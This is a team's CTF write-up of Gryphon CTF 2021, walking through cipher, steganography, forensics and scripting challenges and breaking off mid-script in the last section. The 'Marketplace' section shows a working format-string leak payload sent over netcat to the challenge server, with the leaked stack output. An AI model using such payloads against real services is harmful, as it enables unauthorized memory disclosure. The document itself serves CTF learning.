## Introduction

The 2021 Gryphon CTF, had over 45 challenges split into the categories of Web, Crypto, Forensics, Reverse, Pwn, and Misc! The challenge was held over the course of 48 hours, where many teams competed. My team managed to get 9th place. Credits to my teammates who solved some mind bending challenges.

The CTF website looks damn good, the challenges wasn't really very technical, regardless, it was very fun. It is also the ~~second~~ first time my team and I used [CTF Note](https://github.com/TFNS/CTFNote), a collaborative tool aiming to help CTF teams to organise their work. If you want to setup, you can follow my [guide](/ctfnote). I didn't really test out my guide so it might not work lol.


Anyways, enough introduction, let's get into the challenges. I was lazy to write some part, so bear with me lol, I will rewrite them next time.

### [Reverse] I am confusion

Solved by Jun Yan

Description: I found a computer with a running  program and a slip of paper next to it which reads:
65-90
['7', 'S', '3', 'Z', 'Q', '8', 'Z', 'S', '8', 'Z', 'F', '6', 'Z', 'S', '6', 'Z', 'F', '9', 'Z', 'Q', '7', 'Z', 'T', '8', 'Z', 'S']
The paper states that the answer is in capital letters. Maybe you know how to decipher it?

The program works by using converting plaintext into ascii before using mod.
We know that the program only has “Upper” case letters.
We also know that the only place a Number can occur is when a new letter is used due to line ltr.append(str(each)[-1]) that were used to get the last number of the ASCII.
After a number it appends letters based on the mods if else conditions.
Hence, we split the answer based on the information above.
Utilize python to test possible options and output answer.
Below is the code utilized.

```python
letter1=['7', 'S']	# M (Bruteforce to test how program works)
letter2=['3', 'Z', 'Q']	# ['\r', '\x17', '+', '5', 'I', 'S']
letter3=['8', 'Z','S']	# ['N']
letter4=['8', 'Z', 'F']	# ['D']
letter5=['6', 'Z', 'S']	# ['\x06', 'B']
letter6=['6', 'Z', 'F']	# ['L']
letter7=['9', 'Z', 'Q']	# ['\x13', '\x1d', ';', 'O', 'Y']
letter8=['7', 'Z', 'T']	# ['9', 'W']
letter9=['8', 'Z', 'S']	# ['N']

# ANSWER: M(IS)NDBL(OY)WN

def split(word):
    return [char for char in word]
plaintextascii=int(letter9[0]) #SWAP LETTER 9 WITH LETTER YOU WANT TO TEST THE PROGRAMME WITH
print(plaintextascii)
print("Starting run")
answers=[]
while(True):
	plaintext = chr(plaintextascii).upper()
	asc = [ord(c) for c in plaintext]
	ltr = []
	for each in asc:
		if each % 10 == 0:
			ltr.append(str(each)[-1])
			ltr.append("T")
		elif each % 9 == 0:
			ltr.append(str(each)[-1])
			ltr.append("N")
		elif each % 8 == 0:
			ltr.append(str(each)[-1])
			ltr.append("E")
		elif each % 7 == 0:
			ltr.append(str(each)[-1])
			ltr.append("S")
		elif each % 5 == 0:
			ltr.append(str(each)[-1])
			ltr.append("F")
		else:
			ltr.append(str(each)[-1])
			ltr.append("Z")
			if each % 6 == 0:
		    		ltr.append("S")
			elif each % 4 == 0:
		    		ltr.append("F")
			elif each % 3 == 0:
		    		ltr.append("T")
			elif each % 2 == 0:
		    		ltr.append("G")
			else:
		    		ltr.append("Q")
		print(plaintext)
		print(plaintextascii)

	if(ltr==letter9): # SWAP LETTER 9 to LETTER THAT U WANT TO TEST
		answers.append(plaintext)

	elif(plaintextascii>100):
		print("limit met")
		break
	plaintextascii=plaintextascii+10
print("Answers:")
print(answers)
print("for")
print(ltr)
```

<br/>

### [Reverse] 1s 1t m0rse? (Unsolved)

### [Reverse] Malware analysis (Unsolved)

### [Reverse] Calculator! (Unsolved)

### [Reverse] Suspicious email (Unsolved)

### [Reverse] Swinging password (Unsolved)

<br/>

### [Pwn] Marketplace (Unsolved)

Description: We recently launched a new marketplace. Can you obtain the key?
nc c1.2021.gryphonctf.com 9004

The challenge is actually a simple [format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack). You are able to leak out the flag by sending format string parameter like %x, %p. Forgot endianness exists, hence did not solve the challenge lol.

```bash
python -c 'print("A" * 32 + "%p "*512)' | nc c1.2021.gryphonctf.com 9004

What would you like to buy?
Successfully purchased the following:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0x7f059b90c723 (nil) 0x7f059b83bf33 0x26 0x7f059b90bbe0 0x7230667b46544347 0x5f366e693774346d 0x7230706d695f3569 0x3930335f376e3437 0x7d3637353434 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x25207025207025 0x7ffdf71a8eb0 0xda4ff00ce91d3400 0x55d7cd5c8320 0x7f059b773d0a 0x7ffdf71a8eb8
```

Apparently, in data netorking, network protocols like TCP, UPD, IPv4 and IPv6 are using Big endian order to transmit data. Since a computer usually store data in little endian format, you will need to convert values from big endian to little endian. You can use CyberChef swap endianess recipe, or use this website: [BIG ENDIAN⇔LITTLE ENDIAN CONVERTER](https://www.save-editor.com/tools/wse_hex.html).

Big Endian:
0x7230667b46544347 0x5f366e693774346d 0x7230706d695f3569 0x3930335f376e3437 0x7d3637353434

Little Endian:
0x474354467b663072 0x6d347437696e365f 0x69355f696d703072 0x37346e375f333039 0x34343537367d

After obtaining the hexadecimal digits in little endian, convert hex to ASCII and you will obtain the flag.

Flag: GCTF{f0rm4t7in6\_i5\_imp0r74n7\_30944576}

<br/>

### [Pwn] Sus village (Unsolved)

Will write this next time.

<br/>

### [Misc] A very white horse

Solved by Gavin

Description: This is a completely normal white horse


We are provided with a image of a white horse, use [Forensically](https://29a.ch/photo-forensics/#level-sweep), a web-based set of tools for digital image foreniscs. By changing the contrast of certain brightness levels of the image provided, we can see some chracters on the horse body.



```
.-. --- - ....- --...
# Morse Code decode: ROT47

vr%uL|_C$60w_#DbN
# ROT47 decode: GCTF{M0rSe_H0Rs3}
```

Flag: GCTF{M0rSe\_H0Rs3}

<br/>

### [Misc] Crypto is fun

Solved by Gavin

Description: Who doesn’t love crypto

```
Flag=MiBBR0FJTiAxIENBTEwgMyBBUlQgMyBTT0ZBIHsgNCBCRUFDSCAzIE1PUkUgNSBIQVBQWSAzIEhBUFBZIDQgUEFOVFMgMiBQT1JSSURHRSAzIDUyMSAzIEJBU0UgMyBORUNLIDIgODA2IDIgQk9SSU5HIDEgTE9DSyB9
```

The flag is encoded with Base64, use the [Base64 CyberChef Recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64(‘A-Za-z0-9%2B/%3D’,true)&input=TWlCQlIwRkpUaUF4SUVOQlRFd2dNeUJCVWxRZ015QlRUMFpCSUhzZ05DQkNSVUZEU0NBeklFMVBVa1VnTlNCSVFWQlFXU0F6SUVoQlVGQlpJRFFnVUVGT1ZGTWdNaUJRVDFKU1NVUkhSU0F6SURVeU1TQXpJRUpCVTBVZ015Qk9SVU5MSURJZ09EQTJJRElnUWs5U1NVNUhJREVnVEU5RFN5Qjk) to decode the message.

After decoding the message, we obtain the follow message below.

```
2 AGAIN 1 CALL 3 ART 3 SOFA { 4 BEACH 3 MORE 5 HAPPY 3 HAPPY 4 PANTS 2 PORRIDGE 3 521 3 BASE 3 NECK 2 806 2 BORING 1 LOCK }
```

By selecting position of letters of each word base on the numbers, we are able to group out the flag.

Flag: GCTF{CRYPTO1SC0OL}

<br/>

### [Misc] Head and toes

Description: What do these numbers mean? 01000111 01000011 01010100 01000110 01111011 00110001 01110011 01000001
http://c1.2021.gryphonctf.com:9002/

Hints: What is MSB and LSB?

The description provided what seems to be some binary digits, use a [Binary to ASCII CyberChef Recipe](https://gchq.github.io/CyberChef/#recipe=From_Binary('Space',8)&input=MDEwMDAxMTEgMDEwMDAwMTEgMDEwMTAxMDAgMDEwMDAxMTAgMDExMTEwMTEgMDAxMTAwMDEgMDExMTAwMTEgMDEwMDAwMDE) to decode the message. We obtain the first part of the flag.

```plaintext
GCTF{1sA
```

The next part of the flag was difficult, but with the help of the hint, the combination for the website was the most significant bit and least significant bit of each group binary digits.



Flag: GCTF{1sAnD0s}

<br/>

### [Misc] Ink and a pig?

Description: What do pigs and ink have in common? The answer is in the picture.


We were provided a image made up of strange symbols, use [Yandex Reverse Image Search](https://yandex.com/images/search?cbir_id=1608280%2FObVYn-uOo12CFyx7BvBKWw5598&pos=0&rpt=imageview&img_url=http%3A%2F%2Fhighschool.spsd.org%2Fcrypt%2Fpigex.jpg&cbir_page=similar&url=https%3A%2F%2Favatars.mds.yandex.net%2Fget-images-cbir%2F1608280%2FObVYn-uOo12CFyx7BvBKWw5598%2Forig&rlt_url=https%3A%2F%2Fpbs.twimg.com%2Fmedia%2FE0gVhVxXMAMfv7v.jpg&ogl_url=http%3A%2F%2Fhighschool.spsd.org%2Fcrypt%2Fpigex.jpg) and discovered the encoded message is PigPen cipher.


Decoded message: THEY BOTH GO IN A PEN

Flag: GCTF{THEY BOTH GO IN A PEN}

<br/>

### [Misc] Word search

Description: Amongst the flooded page, all will be revealed when you find it inside.
http://c1.2021.gryphonctf.com:9011/

The website provided had a lot of junk text, by examining the text carefully, you will be able to find a bit.ly link. You can also use [CyberChef Extract URLs recipe](https://gchq.github.io/CyberChef/#recipe=Extract_URLs(false)).



Link: https://bit.ly/3cUcg1q

The link directed us to a google drive image file. Downloading the file and running the file command reveal that the file was a JPEG image. The image seems to be corrupted even after changing the extension.

```bash
$ file Finance_Background2.png
Finance_Background2.png: JPEG image data, JFIF standard 1.01, resolution (DPI), density 8288x8288, segment length 8208, thumbnail 32x32

$ mv Finance_Background2.png Finance_Background2.jpeg
```

Next, view the strings of the image file, and found some interesting text that seem to be encoded in Base64. Decoding the message shows a long piece of text as seen in the figure below.

```bash
$ strings Finance_Background2.jpeg -n 12
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
H       h4-- 'JCKM
J Z_z)7{P!OJm8c
dq05d6pEg6c~*
(RGFkZHkKYnkgU3lsdmlhIFBsYXRoCgpZb3UgZG8gbm90IGRvLCB5b3UgZG8gbm90IGRvCkFueSBtb3JlLCBibGFjayBzaG9lCkluIHdoaWNoIEkgaGF2ZSBsaXZlZCBsaWtlIGEgZm9vdApGb3IgdGhpcnR5IHllYXJzLCBwb29yIGFuZCB3aGl0ZSwKQmFyZWx5IGRhcmluZyB0byBicmVhdGhlIG9yIEFjaG9vLgoKRGFkZHksIEkgaGF2ZSBoYWQgdG8ga2lsbCB5b3UuCllvdSBkaWVkIGJlZm9yZSBJIGhhZCB0aW1l4oCUCk1hcmJsZS1oZWF2eSwgYSBiYWcgZnVsbCBvZiBHb2QsCkdoYXN0bHkgc3RhdHVlIHdpdGggb25lIGdyYXkgdG9lCkJpZyBhcyBhIEZyaXNjbyBzZWFsCgpBbmQgYSBoZWFkIGluIHRoZSBmcmVha2lzaCBBdGxhbnRpYwpXaGVyZSBpdCBwb3VycyBiZWFuIGdyZWVuIG92ZXIgYmx1ZQpJbiB0aGUgd2F0ZXJzIG9mZiB0aGUgYmVhdXRpZnVsIE5hdXNldC4KSSB1c2VkIHRvIHByYXkgdG8gcmVjb3ZlciB5b3UuCkFjaCwgZHUuCgpJbiB0aGUgR2VybWFuIHRvbmd1ZSwgaW4gdGhlIFBvbGlzaCB0b3duClNjcmFwZWQgZmxhdCBieSB0aGUgcm9sbGVyCk9mIHdhcnMsIHdhcnMsIHdhcnMuCkJ1dCB0aGUgbmFtZSBvZiB0aGUgdG93biBpcyBjb21tb24uCk15IFBvbGFjayBmcmllbmQKClNheXMgdGhlcmUgYXJlIGEgZG96ZW4gb3IgdHdvLgpTbyBJIG5ldmVyIGNvdWxkIHRlbGwgd2hlcmUgeW91ClB1dCB5b3VyIGZvb3QsIHlvdXIgcm9vdCwKSSBuZXZlciBjb3VsZCB0YWxrIHRvIHlvdS4KVGhlIHRvbmd1ZSBzdHVjayBpbiBteSBqYXcuCgpJdCBzdHVjayBpbiBhIGJhcmIgd2lyZSBzbmFyZS4KSWNoLCBpY2gsIGljaCwgaWNoLApJIGNvdWxkIGhhcmRseSBzcGVhay4KSSB0aG91Z2h0IGV2ZXJ5IEdlcm1hbiB3YXMgeW91LgpBbmQgdGhlIGxhbmd1YWdlIG9ic2NlbmUKCkFuIGVuZ2luZSwgYW4gZW5naW5lLApDaHVmZmluZyBtZSBvZmYgbGlrZSBhIEpldy4KQSBKZXcgdG8gRGFjaGF1LCBBdXNjaHdpdHosIEJlbHNlbi4KSSBiZWdhbiB0byB0YWxrIGxpa2UgYSBKZXcuCkkgdGhpbmsgSSBtYXkgd2VsbCBiZSBhIEpldy4KClRoZSBzbm93cyBvZiB0aGUgVHlyb2wsIHRoZSBjbGVhciBiZWVyIG9mIFZpZW5uYQpBcmUgbm90IHZlcnkgcHVyZSBvciB0cnVlLgpXaXRoIG15IGd5cHN5IGFuY2VzdHJlc3MgYW5kIG15IHdlaXJkIGx1Y2sKQW5kIG15IFRhcm9jIHBhY2sgYW5kIG15IFRhcm9jIHBhY2sKSSBtYXkgYmUgYSBiaXQgb2YgYSBKZXcuCgpJIGhhdmUgYWx3YXlzIGJlZW4gc2NhcmVkIG9mIHlvdSwKV2l0aCB5b3VyIEx1ZnR3YWZmZSwgeW91ciBnb2JibGVkeWdvby4KQW5kIHlvdXIgbmVhdCBtdXN0YWNoZQpBbmQgeW91ciBBcnlhbiBleWUsIGJyaWdodCBibHVlLgpQYW56ZXItbWFuLCBwYW56ZXItbWFuLCBPIFlvdeKAlAoKTm90IEdvZCBidXQgYSBzd2FzdGlrYQpTbyBibGFjayBubyBza3kgY291bGQgc3F1ZWFrIHRocm91Z2guCkV2ZXJ5IHdvbWFuIGFkb3JlcyBhIEZhc2Npc3QsClRoZSBib290IGluIHRoZSBmYWNlLCB0aGUgYnJ1dGUKQnJ1dGUgaGVhcnQgb2YgYSBicnV0ZSBsaWtlIHlvdS4KCllvdSBzdGFuZCBhdCB0aGUgYmxhY2tib2FyZCwgZGFkZHksCkluIHRoZSBwaWN0dXJlIEkgaGF2ZSBvZiB5b3UsCkEgY2xlZnQgaW4geW91ciBjaGluIGluc3RlYWQgb2YgeW91ciBmb290CkJ1dCBubyBsZXNzIGEgZGV2aWwgZm9yIHRoYXQsIG5vIG5vdApBbnkgbGVzcyB0aGUgYmxhY2sgbWFuIHdobwoKQml0IG15IHByZXR0eSByZWQgaGVhcnQgaW4gdHdvLgpJIHdhcyB0ZW4gd2hlbiB0aGV5IGJ1cmllZCB5b3UuCkF0IHR3ZW50eSBJIHRyaWVkIHRvIGRpZQpBbmQgZ2V0IGJhY2ssIGJhY2ssIGJhY2sgdG8geW91LgpJIHRob3VnaHQgZXZlbiB0aGUgYm9uZXMgd291bGQgZG8uCgpCdXQgdGhleSBwdWxsZWQgbWUgb3V0IG9mIHRoZSBzYWNrLApBbmQgdGhleSBzdHVjayBtZSB0b2dldGhlciB3aXRoIGdsdWUuCkdDVEZ7U3R1Q2sgVzN0aCB5M1d9CkFuZCB0aGVuIEkga25ldyB3aGF0IHRvIGRvLgpJIG1hZGUgYSBtb2RlbCBvZiB5b3UsCkEgbWFuIGluIGJsYWNrIHdpdGggYSBNZWlua2FtcGYgbG9vawoKQW5kIGEgbG92ZSBvZiB0aGUgcmFjayBhbmQgdGhlIHNjcmV3LgpBbmQgSSBzYWlkIEkgZG8sIEkgZG8uClNvIGRhZGR5LCBJJ20gZmluYWxseSB0aHJvdWdoLgpUaGUgYmxhY2sgdGVsZXBob25lJ3Mgb2ZmIGF0IHRoZSByb290LApUaGUgdm9pY2VzIGp1c3QgY2FuJ3Qgd29ybSB0aHJvdWdoLgoKSWYgSSd2ZSBraWxsZWQgb25lIG1hbiwgSSd2ZSBraWxsZWQgdHdv4oCUClRoZSB2YW1waXJlIHdobyBzYWlkIGhlIHdhcyB5b3UKQW5kIGRyYW5rIG15IGJsb29kIGZvciBhIHllYXIsClNldmVuIHllYXJzLCBpZiB5b3Ugd2FudCB0byBrbm93LgpEYWRkeSwgeW91IGNhbiBsaWUgYmFjayBub3cuCgpUaGVyZSdzIGEgc3Rha2UgaW4geW91ciBmYXQgYmxhY2sgaGVhcnQKQW5kIHRoZSB2aWxsYWdlcnMgbmV2ZXIgbGlrZWQgeW91LgpUaGV5IGFyZSBkYW5jaW5nIGFuZCBzdGFtcGluZyBvbiB5b3UuClRoZXkgYWx3YXlzIGtuZXcgaXQgd2FzIHlvdS4KRGFkZHksIGRhZGR5LCB5b3UgYmFzdGFyZCwgSSdtIHRocm91Z2gu)
```


Flag: GCTF{StuCk W3th y3W}

<br/>

### [Misc] Repeat, repeat

Solved by Ethan

Description: Why does the word "repeAting" keep repeatiNg??

We were given a text file as seen in the textbox below.

```plain
(repeatIng Repeating)
(repeaTing repeatIng)
(repeatiNg repEating)
(repeatIng repeating)
(Repeating rEpeating rePeating)
(repeatinG repeatIng)
(repeatIng Repeating)
(repeAting rEpeating)
(repeatIng rePeating)
(repeatIng repeatiNg)
(repeatinG repeAting)
(repeatIng repeatiNg)
(repeatinG repeAting)
(repeatinG repeatIng)
(repeatIng Repeating)
(repeaTing repeAting)
(rePeating rePeating)
(repeatIng repeatiNg)
(Repeating rEpeating repeAting)
```

We can then take the capitalized letter in each row to obtain this:
IR TI NE I REP GI IR AE IP IN GA IN GA GI IR TA PP IN REA

Converting those letters into numbers representing their position within their respective 'repeating' words, we get this:
71 67 84 70 123 97 71 52 73 78 95 78 95 97 71 65 33 78 125

We can then convert those numbers into ASCII characters to obtain the flag:


Flag: GCTF{aG4IN\_N\_aGA!N}

<br/>

### [Misc] Script kiddie

Description: Are you a script kiddie or a math god?
nc c1.2021.gryphonctf.com 9007

We were given a netcat command to connect to the server at port 9007. By connecting to it, the textbox below shows the data received back.

```bash
Welcome math god! You will be given several questions and you have 5 seconds to solve each question for the flag! Good Luck! :P
Solve: [73442465 DIVIDE 49951750]

> You ran out of time or faced an error! Exiting Program Now.
```

This is clearly a scripting challenge as there is a time limit to solve some mathletics equations within 5 seconds. We will use Python with PwnTools to achieve this task.

```python
#!/usr/bin/env python3

from pwn import *

host = "c1.2021.gryphonctf.com"
port = 9007

conn = remote(host, port)
print(conn.recvline())
# conn.send(b'\r\n')
challenge = conn.recvline().split(b" ")
print(challenge)

first_number = int(challenge[1].decode("utf-8")[1:])
operation = challenge[2].decode("utf-8")
second_number = int(challenge[3].decode("utf-8")[:-2])
result = 0

for i in range(50):
    if operation == "ADD":
        result = first_number + second_number
    elif operation == "SUBTRACT":
        result = first_number - second_number
    elif operation == "MULTIPLY":
        result = first_number * second_number
    elif operation == "DIVIDE":
        result = first_number / second_number
    else:
        print("unknown")
        break

    print(result)
    conn.send(str(result).encode())
    print(f"{conn.recvline()}")
    print(f"{conn.recvline()}")
    challenge = conn.recvline().split(b" ")
    print(challenge)
    try:
        first_number = int(challenge[1].decode("utf-8")[1:])
        operation = challenge[2].decode("utf-8")
        second_number = int(challenge[3].decode("utf-8")[:-2])
    except:
        pass

print(f"{conn.recvline()}")
```

Flag: GCTF{scr1pt1ng\_1s\_c00l}

<br/>

### [Misc] Script god

Description: You seem to know your way around scripts! Let’s try something different!
http://c1.2021.gryphonctf.com:9006/

This challenge seem to be the slibing of the previous scripting challenge, Script kiddie. This time, we were provided a website with the mathletics question as an image. Once again, we can use Python and PyTesseract to do some Optical character recognition (OCR) magic to solve the challenge.



This code below was inspried by https://blog.justins.in/cddc20/. I remember seeing this challenge in CDDC2020.

```python
import requests
from requests.structures import CaseInsensitiveDict
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import subprocess
from PIL import Image
import pytesseract
import cv2
import numpy as np
import re
import json

only_slashes = re.compile("^S?\/+[^A-Za-z\+\-]*S?$")
HOST =  "http://c1.2021.gryphonctf.com:9006/"

s = requests.Session()

headers = CaseInsensitiveDict()
headers["Content-Type"] = "application/x-www-form-urlencoded"
r = s.get(HOST)

def resolve(soup, val, charset):
    src = soup.find("img").get("src")

    subprocess.Popen(["wget", urljoin(HOST, src), "-O", "out.png"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL).wait()
    img = Image.open("out.png")

    new_size = tuple(2*x for x in img.size)
    img = img.resize(new_size, Image.ANTIALIAS)

    img.save("out.png")

    # Grayscale, Gaussian blur, Otsu's threshold
    image = cv2.imread('out.png')
    gray = cv2.cvtColor(image, cv2.COLOR_BGR2GRAY)
    blur = cv2.GaussianBlur(gray, (3,3), 0)
    thresh = cv2.threshold(blur, 0, 255, cv2.THRESH_BINARY_INV + cv2.THRESH_OTSU)[1]

    # Morph open to remove noise and invert image
    kernel = cv2.getStructuringElement(cv2.MORPH_RECT, (3,3))
    opening = cv2.morphologyEx(thresh, cv2.MORPH_OPEN, kernel, iterations=1)
    invert = 255 - opening

    # cv2.imshow('thresh', thresh)
    # cv2.imshow('opening', opening)
    # cv2.imshow('invert', invert)

    # OCR the image
    res = pytesseract.image_to_string(invert, config=charset)
    if len(res) == 0:
        raise Exception("Failed to OCR")
    print(f'Recovered {res.strip()} from {src}')

    # cv2.waitKey(0)

    return res

while True:
    soup = BeautifulSoup(r.text, "html.parser")

    if "GCTF{" in soup.text:
        print(soup.text)
        break
    stage = soup.find("h2").text

    quiz_question = resolve(soup, "operator", "-c tessedit_char_whitelist= xADIVEMULTYSBRT+-/0123456789").split(' ')

    operator = quiz_question[1].strip()
    argv_1 = int(quiz_question[0].strip())
    argv_2 = int(quiz_question[2].strip())


    if "/" == operator or "DIV" in operator:
        ans = argv_1 / argv_2
    elif "x" == operator  or "MUL" in operator:
        ans = argv_1 * argv_2
    elif "-" == operator or "SUB" in operator:
        ans = argv_1 - argv_2
    elif "+" == operator or "ADD" in operator:
        ans = argv_1 + argv_2
    else:
        print(f'Unknown op {operator}')
        break

    print(f'Stage {stage}: {argv_1} {operator.strip()} {argv_2} = {ans}')
    print()

    r = s.post(HOST, headers=headers, data=f"answer={ans}")
```

Running the solve.py, we are able to achieve our goal and get the flag.

```plain
Recovered 25990843 MULTIPLY 36736222 from /static/images/img124912.jpg
Stage Level 49: 25990843 MULTIPLY 36736222 = 954805378415146

Recovered 66288008 DIVIDE 80947831 from /static/images/img37471.jpg
Stage Level 50: 66288008 DIVIDE 80947831 = 0.8188978899261674

Congratulations! Your Flag is: GCTF{1_4m_4_sCr1pt_m4st3r}
```
Flag: GCTF{1\_4m\_4\_sCr1pt\_m4st3r}

<br/>

### [Misc] Can y0u f1nd the flag?

Solved by Gavin

Description: I can’t find it, can you? The flag has no numbers in it and is in ALL CAPS.

Hint: Put the text in a place where you can see all matching characters

We were given a text file of what seems to be a bunch for random digits. To solve this challenge, you can do a CTRL + F and search "0", then CTRL + F again and search "1".

```plain
951000000007211
130714864340143
707722228413082
308612930001113
560954151708175
193000000091383
255451155398583
568000000021717
950567573103191
510631738694715
140392168905713
957000000027249
691814622438227
484000000005652
693727084852964
672222051737573
538863082135132
249989033327784
828675582283232
491000000005499
791011946139713
833000043635271
561025135279735
626055318975896
393081394388383
249719345729269
134839500003289
771572061841524
223220976312882
535200987399243
939000673361789
869500133118793
587720923265433
366433038843571
454544600009415
572824822165466
133000000044424
390474171209239
440243428223672
340914427902635
741000000026894
598449964347122
782000000052869
526588041594594
933966038715621
275222069326596
785926014462726
176597555553685
954200000005889
517055135530155
497066346560678
95906000000854
655000369877898
165066008291869
563075660087327
716229326145869
483055369757883
572062442661565
123065467793765
616073468668298
964066426111737
751000000054193
223727341624521
488000000039733
555015553735456
649000341722672
698045859777822
427037472384722
519021179773686
475955356284914
361111111111979
260523557045060
341111111111039
289364154406072
334870193042459
549025179289232
034464108928976
921111111111872
750084225766035
760111111111062
671083652892036
970111111126099
607979382019260
477425522891403
361111111114040
564200005308023
251111111111548
970209370096483
790111111115460
941442042291006
201424450278530
261277008561249
980111111110208
025345344058895
920111111113295
801427220251790
091628052741620
391582920081503
804111111116068
808004809285095
427111111115824
051598323421379
031790937701327
051006525341278
346111111110923
363000384240205
652134088508607
987135447097095
338130782377253
309125092434673
423111111110320
270957956898077
830911179530705
633264217827763
603087981004265
529247081126500
960804279114995
227705931155502
000438701572349
089303816305628
229411100053306
```

Flag: GCTF{CTRLF}

<br/>

### [Misc] Static

Description: swish swoosh

We were given a image file of what looks to be like static.



We can use some steganography tools, like [Stegsolve](https://github.com/zardus/ctf-tools/blob/master/stegsolve/install) to find see whether we can find anything interesting. Honestly, sometimes wihtout given hints, you just have to keep trying different stego tools. Luckly for us, StegSolve seems to be the correct tool for the job. A hidden QR Code found at one of the pane of the image as seen in the figure below.



A clearer version of the QR code:


I used a online "photoshop" tool: https://www.photopea.com/Un-twirl, to apply the twirl effect on the image. Try to get it into a right angle, than scan with your QR code scanner, or phone.



Flag: GCTF{h1dd3n\_5w1213d\_1m4935}

<br/>

### [Misc] Frequencies (Unsolved)

### [Misc] nlockTheFile (Unsolved)

### [Misc] O’clock (Unsolved)

<br/>

### [Forensic] Inbetween

Solved by Ethan

Description: There is a file in a file. Can you find it?

We are given a image file of this yellow circle smiling face :)


We can use BinWalk, a tool for searching a given binary image for embedded files, and extract two files, a text file and an archive file.





The text file contains the following text as seen in the figure below.


The archive file contain after text file, however seem to require a password to extract the text file.



The 3DCB zip file seen above is a password protected zip file which contains a text file. We can extract it successfully using A!m0st as the password.

Flag: GCTF{k3ep\_0n\_s4iling}

<br/>

### [Forensic] Find the mole in the crowd

Solved by Ethan

Description: Find the flag amongst the many "people" that are in it together.
http://c1.2021.gryphonctf.com:9001/

Visiting the site, it says that the flag can be found here. Using inspect element, we can see that there are 2 commented out Google Drive links


Visiting both Google Drive links we will be able to download 2 different zip files. However, the 1st one is simply a diversion meant to waste your time. You may ignore it and download from the 2nd link


Once the download is complete, simply extract the zip file and navigate through its subfolders. Clicking into the Demo.zip and then the Demo folder inside it. After which you will see the following


Click into the New folder and the subsequent mISC folder. You will then see the following


Click into the New Text Document and you will see some Hexadecimal characters


Paste these characters into a hex to ASCII converter and you will obtain the flag


Flag: GCTF{Im\_N0T\_G00D\_AT\_T1STH1N6}

<br/>

### [Forensic] Music, or is it?

Description: My friend introduced me to a piece of music for me to listen to recently. However, there is something strange in the music. Can you determine what is happening in the music?

The challenge comes with a mp3 file, put it into Sonic Visualizer and add a spectogram


You will see the following hex characters:
52304e55526e747a55475644644849775a334a41625639706331396a4d4442736651

Converting them to ASCII characters would give us the following:
R0NURntzUGVDdHIwZ3JAbV9pc19jMDBsfQ


Using a Base64 decoder, we will then obtain the flag:

Flag: GCTF{sPeCtr0gr@m\_is\_c00l}

<br/>

### [Forensic] Thirteen Doges

Solved by Gavin

Download doge.jpg

Here's a pic of good ol' Doge. The one and only. Or is it?

Ensure to have a 7-zip or WinRAR extractor installed to be able to solve this problem


Photo String Extraction -> https://29a.ch/photo-forensics/#strings
// Multiple Images Hiddein in doge.jpg

Cyber Chef -> Extract Files
Download biggest file because why not

Dog7.jpg has a different CRC32 value

String Extraction = TPGS{q0t3p01a}

Caesar Cipher +13 = GCTF{d0g3c01n}

Flag: GCTF{d0g3c01n}

<br/>

### [Forensic] I love streaming music

Description: I lost my music files during one of my streams, can you help me find them?

Open the PCAP file in Wireshark, click on Statistics -> Conversations


Go to TCP  15 and sort by Bytes in descending order


Click on the last one and click Follow Stream. You will obtain the following Base64 code


Decoding it will give you a link


Visiting the link then provides you with a Google Drive [link](https://drive.google.com/drive/folders/1WTl2_tIn1Kw4jDtu5ZatWsUYuCYDbmLF)


Visiting the Google Drive link will show you 2 audio files available for download


Using Sonic Visualizer, spectrogram layer. The last part of the audio1.mp3 contains the flag


The flag used was: GCTF{1-l0ve-m0rs3-c0d3}

<br/>

### [Forensic] Sheeesh

Solved by Ethan

Description: This CTF is bussin' respectfully.

Put the Sheesh.wav file into Sonic Visualizer and view it in a Spectrogram, an incomplete QR code can be seen


We can then attempt to reconstruct the QR code manually based on what we can see


From this QR code we will obtain the first half of the flag being: GCTF{Sh3e3e3e3e3e5h

We must now put the Sheeesh.wav file into a metadata checker.


We can see that the Technician area seems to be a Base64 code. So we can put it into a decoder to see the results.

From the decode, we get the following:


Appending that to the previous half of the flag we had obtained, we now get GCTF{Sh3e3e3e3e3e5h\_1nD33d} which is the flag

Flag: GCTF{Sh3e3e3e3e3e5h\_1nD33d}

<br/>

### [Forensic] Imerge (Unsolved)

<br/>

### [Forensic] xkey

Description: This is a weird file, I wonder what it contains?


XOR Decrypt, jpeg file

Decrypting with the key "1337" in hex with XOR, outputs a JPEG image.


Extracting files in the jpeg file

```bash
binwalk -e flag.jpg
cd _flag.jpg.extracted/xkey_part2

0 1 2 3 4 5 .. .. .. .. .. .. .. .. 7080   7160  7724  8288  8851  9414  8861  9424  9989
1537  4  7758  8320  8885  9448 .. .. 10000 flag.zip README script.py
```

```bash
cat 0 1 2 3 4 5 10000
GCTF{F0r3n51cS_1s_n0T_h4rD_49619}
GCTF{F0r3n51cS_1s_n0T_h4rD_97263}
GCTF{F0r3n51cS_1s_n0T_h4rD_33100}
GCTF{F0r3n51cS_1s_n0T_h4rD_37418}
GCTF{F0r3n51cS_1s_n0T_h4rD_65848}
GCTF{F0r3n51cS_1s_n0T_h4rD_64153}
GCTF{F0r3n51cS_1s_n0T_h4rD_711555}
```

```bash
$ cat README
cat script.py
```
> The password to this zip is in one of these files, can you find it? Here is the source code, I ran it and modified one of the files with the password.
NOTE: This is not the flag, GCTF{..._password} is not the flag. If you run the script, \*THE FLAG WILL BE DELETED\*

```python
import random
x = 0
while x < 10001:
        with open(str(x), 'w') as f:
